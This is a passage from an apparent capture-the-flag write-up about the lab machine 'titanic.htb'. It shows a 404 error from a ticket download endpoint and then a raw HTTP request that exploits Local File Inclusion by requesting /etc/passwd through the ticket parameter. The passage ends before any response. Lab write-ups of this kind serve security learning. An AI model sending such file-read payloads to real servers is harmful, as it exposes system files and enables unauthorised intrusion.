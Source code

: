 After forwarding this one too an error was shown to us.

```c
HTTP/1.1 404 NOT FOUND
Date: Sat, 15 Feb 2025 19:21:50 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Type: application/json
Content-Length: 29
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

{"error":"Ticket not found"}

```

![](images/2025-02-15_20-22_80_download_ticket.png)

Since the application tried to grab a file stored on the disk, we decided to test for `Local File Inclusion (LFI)` and got lucky!

```c
GET /download?ticket=/etc/passwd HTTP/1.1
Host: titanic.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titanic.htb/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


```
